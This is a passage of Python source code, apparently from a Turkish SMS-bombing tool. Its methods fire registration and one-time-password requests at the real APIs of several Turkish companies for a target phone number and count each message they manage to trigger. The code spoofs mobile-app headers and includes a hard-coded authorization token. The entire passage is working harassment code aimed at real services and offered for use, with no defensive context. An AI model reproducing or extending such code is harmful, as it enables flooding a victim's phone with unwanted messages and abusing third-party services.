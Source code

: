             else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> heyapi.heymobility.tech")

        
    #bisu.com.tr
    def Bisu(self):
        try:
            url = "https://www.bisu.com.tr:443/api/v2/app/authentication/phone/register"
            headers = {"Content-Type": "application/x-www-form-urlencoded; charset=utf-8", "X-Device-Platform": "IOS", "X-Build-Version-Name": "9.4.0", "Authorization": "0561b4dd-e668-48ac-b65e-5afa99bf098e", "X-Build-Version-Code": "22", "Accept": "*/*", "X-Device-Manufacturer": "Apple", "X-Device-Locale": "en", "X-Client-Device-Id": "66585653-CB6A-48CA-A42D-3F266677E3B5", "Accept-Language": "en-US,en;q=0.9", "Accept-Encoding": "gzip, deflate", "X-Device-Platform-Version": "15.7.7", "User-Agent": "BiSU/22 CFNetwork/1335.0.3.2 Darwin/21.6.0", "X-Device-Model": "iPhone 7 Plus", "X-Build-Type": "Release"}
            data = {"phoneNumber": self.phone}
            r = requests.post(url, headers=headers, data=data, timeout=6)
            if r.json()["errors"] == None:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> bisu.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> bisu.com.tr")


    #345dijital.com
    def Ucdortbes(self):
        try:
            url = "https://api.345dijital.com:443/api/users/register"
            headers = {"Accept": "application/json, text/plain, */*", "Content-Type": "application/json", "Accept-Encoding": "gzip, deflate", "User-Agent": "AriPlusMobile/21 CFNetwork/1335.0.3.2 Darwin/21.6.0", "Accept-Language": "en-US,en;q=0.9", "Authorization": "null", "Connection": "close"}
            json={"email": "", "name": "Memati", "phoneNumber": f"+90{self.phone}", "surname": "Bas"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["error"] == "E-Posta veya telefon zaten kayıtlı!":
                print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.345dijital.com")
            else:
                raise
        except:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.345dijital.com")
            self.adet += 1


    #macrocenter.com.tr
    def Macro(self):
        try:
            url = "https://www.macrocenter.com.tr:443/rest/users/register/otp?reid=31"
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0", "Accept": "application/json", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Referer": "https://www.macrocenter.com.tr/kayit", "Content-Type": "application/json", "X-Forwarded-Rest": "true", "X-Pwa": "true", "X-Device-Pwa": "true", "Origin": "https://www.macrocenter.com.tr", "Dnt": "1", "Sec-Gpc": "1", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-origin", "Te": "trailers"}
            json={"email": self.mail, "phoneNumber": self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["successful"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> macrocenter.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> macrocenter.com.tr")
